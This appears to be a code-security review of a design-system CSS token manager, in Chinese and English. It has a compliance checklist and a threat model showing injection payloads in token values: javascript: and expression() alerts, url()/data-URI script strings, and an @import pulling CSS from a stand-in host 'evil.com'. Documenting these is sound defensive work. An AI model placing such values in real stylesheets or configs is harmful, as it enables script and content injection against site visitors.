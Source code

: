 ## 🔐 Security & Compliance Checklist

- ❌ **無CSS注入漏洞**: 發現Critical級別CSS注入風險
- ❌ **輸入驗證完善**: CSS變數值缺少安全驗證  
- ❌ **輸出淨化完整**: 直接設置CSS變數無過濾機制
- ✅ **無憑證/密鑰外洩**: 設計令牌為公開配置
- ✅ **AuthN/AuthZ完整**: 不適用於設計系統管理器
- ⚠️ **安全錯誤處理**: 基本實作完成，需要強化
- ✅ **最小權限原則**: 僅操作CSS變數，權限範圍合理
- ⚠️ **日誌稽核性**: 狀態追蹤完成，需要安全事件記錄
- ❌ **合規條款滿足**: OWASP ASVS V5.3.4 不符合

## 🚨 Threat Model Analysis

### Attack Vectors Identified

#### 1. CSS Injection via javascript: Protocol
```javascript
// 攻擊範例
const maliciousTokens = {
  colors: {
    primary: {
      1: 'javascript:alert("XSS")', // 惡意注入
      2: 'expression(alert("XSS"))'  // IE expression注入
    }
  }
};
```

#### 2. URL-based Injection
```javascript
// 攻擊範例  
const urlInjection = {
  colors: {
    primary: {
      1: 'url(javascript:alert(1))', // 惡意URL
      2: 'url("data:text/html,<script>alert(1)</script>")' // Data URI注入
    }
  }
};
```

#### 3. CSS Import Injection
```javascript
// 攻擊範例
const importInjection = {
  typography: {
    fontFamily: '@import url("http://evil.com/malicious.css"); font-family'
  }
};
```
